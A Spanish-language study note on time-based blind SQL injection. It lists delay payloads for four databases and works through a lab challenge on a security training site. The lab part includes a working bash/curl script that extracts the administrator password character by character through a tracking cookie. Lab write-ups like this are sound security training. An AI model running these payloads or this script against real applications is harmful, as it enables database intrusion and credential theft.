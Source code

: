 Si la aplicación detecta **errores de base de datos** con una consulta SQL y los gestiona correctamente, no habrá ninguna diferencia en la respuesta de la aplicación. Este es uno de los casos en dónde es conveniente explotar la vulnerabilidad de la **inyección SQL ciega con retrasos temporales** en función de si una condición inyectada es verdadera o falsa.

Como las consultas SQL normalmente se procesan de forma sincrónica por la aplicación, retrasar la ejecución de una consulta SQL también retrasa la respuesta HTTP validando la condición inyectada en función del tiempo que se tarda en recibir la respuesta HTTP.

Las técnicas para activar un retraso de tiempo son específicas del tipo de base de datos que se utilice.
Por ejemplo, en **Microsoft SQL Server**, puede utilizar lo siguiente para probar una condición y activar un retraso en función de si la expresión es verdadera:

La siguiente entrada no genera un retraso, porque la condición ``1=2`` es falsa.
```SQL
'; IF (1=2) WAITFOR DELAY '0:0:10'--
```
La segunda entrada genera un retraso de 10 segundos, porque la condición ``1=1`` es verdadera.
```SQL
'; IF (1=1) WAITFOR DELAY '0:0:10'--
```

Usando esta técnica, podemos recuperar datos probando un carácter a la vez:
```SQL
'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
```

>[!NOTE]
>Existen formas de activar delays en las consultas SQL dependiendo de técnicas y tipos de bases de datos. 

#### Time delays

Lo siguiente generará un retraso temporal incondicional de 10 segundos.

	| Oracle     | dbms_pipe.receive_message(('a'),10)|
	| Microsoft  | WAITFOR DELAY '0:0:10'             |
	| PostgreSQL | SELECT pg_sleep(10)                |
	| MySQL      |SELECT SLEEP(10)                    |

Para probar una única condición booleana y activar un retraso de tiempo si la condición es verdadera.

	| Oracle     | SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual    |
	| Microsoft  | IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'  |
	| PostgreSQL | SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END |
	| MySQL      | SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')`    |

#### Laboratorio SQLi ciega con retrasos de tiempo y recuperación de información

Este laboratorio con una vulnerabilidad de inyección SQL ciega. La aplicación utiliza una cookie de seguimiento para realizar análisis y realiza una consulta SQL que contiene el valor de la cookie enviada.
Los resultados de la consulta SQL no se devuelven y la aplicación *no responde de manera diferente en función de si la consulta devuelve filas o genera un error*. Sin embargo, dado que la consulta se ejecuta de manera sincrónica, es posible activar demoras de tiempo condicionales para inferir información.
La base de datos contiene una tabla diferente llamada users, con columnas llamadas username y password. Debe aprovechar la vulnerabilidad de inyección SQL ciega para averiguar la contraseña del usuario administrator.

**Para resolver el laboratorio, aproveche la vulnerabilidad de inyección SQL para generar una demora de 10 segundos e inicie sesión como usuario administrador..**

![[Pasted image 20250218153115.png]]

Ubicamos los parámetros que nos servirán, en este caso la session y el trackingId
![[Pasted image 20250218161235.png]]

Realizamos una inyección con el navegador, que no resultó.
![[Pasted image 20250218161617.png]]

Utilizamos BurpSuite 
![[Pasted image 20250218165548.png]]

Y se encontró que la inyección por tiempo es efectiva
![[Pasted image 20250218165751.png]]


- `'` : Cierra el string original
- `||` : Operador de concatenación en PostgreSQL  
- `pg_sleep(5)` : Función que pausa la ejecución por 10 segundos
- `-- ` : Comenta el resto de la query

Procedemos a crear una condición basada en caracteres del password.
substring extrae el primer caracter de `password` en este caso con `'a'`
```SQL
' || (SELECT CASE WHEN (SUBSTRING(password,1,1)='a') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users WHERE username='administrator')--
```
- Compara el carácter en la posición actual del campo `password`
- Si coincide con el carácter probado, pausa 10 segundos (`pg_sleep(10)`)
- Si no coincide, no pausa (`pg_sleep(0)`)

![[Pasted image 20250218170436.png]]

```bash
#!/bin/bash

url="https://0a8500f4031f806fecff7d3700d800de.web-security-academy.net/"
session="L2V2ajuZMRVVQMAgqEL2Ud7WMWTOTDdc"
tracking_id="FOC9ammoW32Uub3e"

password=""

echo "Iniciando ataque..."

Para cada posición del 1 al 20 (asumiendo que la contraseña es de 20 caracteres):
    Prueba cada posible carácter (letras a-z y números 0-9):
        payload="${tracking_id}'||(SELECT CASE WHEN SUBSTRING(password,$pos,1)='$char' THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users WHERE username='administrator')--"
        cookies="TrackingId=$payload; session=$session"
        
        start=$(date +%s)
        Envía la petición web con esta inyección
        Mide el tiempo de respuesta
        
        Si la respuesta tarda ≥10 segundos:
            Guarda el carácter como válido
	        Pasa a probar la siguiente posición
        fin Si
    fin para
fin para
```

El código final es el siguiente:
```bash
#!/bin/bash

url="https://0a8500f4031f806fecff7d3700d800de.web-security-academy.net/"
session="L2V2ajuZMRVVQMAgqEL2Ud7WMWTOTDdc"
tracking_id="FOC9ammoW32Uub3e"

password=""

echo "Iniciando ataque..."

for ((pos=1; pos<=20; pos++)); do
    for char in {a..z} {0..9}; do
        payload="${tracking_id}'||(SELECT CASE WHEN SUBSTRING(password,$pos,1)='$char' THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users WHERE username='administrator')-- "
        cookies="TrackingId=$payload; session=$session"
        
        start=$(date +%s.%N)
        curl -s -L -b "$cookies" "$url" >/dev/null
        duration=$(echo "$(date +%s.%N) - $start" | bc)
        
        if (( $(echo "$duration >= 10" | bc -l))); then
            password+=$char
            echo -ne "\rPassword parcial: $password"
            break
        fi
    done
done

echo -e "\n[+] Password final: $password"
```

Ejecutando el código, obtenemos una contraseña
![[Pasted image 20250218174335.png]]

